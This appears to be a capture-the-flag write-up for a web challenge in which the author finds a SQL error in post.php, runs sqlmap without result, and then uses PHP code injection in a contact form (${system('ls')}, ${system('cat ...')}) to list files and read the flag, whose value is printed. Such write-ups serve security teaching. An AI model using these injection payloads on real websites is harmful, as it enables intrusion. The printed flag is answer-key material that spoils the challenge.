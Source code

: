## Hashable
```
A famous enterprise blog was hacked, can you figure out how it was hacked?
```
- Link: http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/hashable/

#### Solve:

- Step 1

    - After connecting to the website, it took a tour and noticed that there is a *post.php* with param *id*, whan I add a single column it spited a MySQL error:
        ```
        post.php?id=1'
        
        you have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 1\\\'')) ORDER BY id ASC' at line 2
        ```
    
    - Lets fire up `sqlmap` on the target, with database type `MySQL`:
        ```commandline
        sqlmap -u "http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/hashable/post.php?id=1" -p id --dbms MySQL
        ```
        - Nothing found
    
    - Trying to check the *contact.php* if it's vulnerable, and indeed it's !
    
    - By evaluating the PHP code in message field: 
        ```commandline
        ${system('ls')}
        ```

    - We get the following results:
    
        ```
        <div class="row">
		about.php
        contact.php
        css
        flag_23894ABCX1.txt
        footer.php
        gulpfile.js
        header.php
        img
        index.php
        js
        package-lock.json
        package.json
        post.php
        scss
        vendor
        Message successfully sent!        
        <div class="col-lg-8 col-md-10 mx-auto">
        ```
      
    - Now we can read the flag:
        ```commandline
        ${system('cat flag_23894ABCX1.txt')}
        ```

> **Flag: 18ab51f960bd149bcb2497b9998c752c**

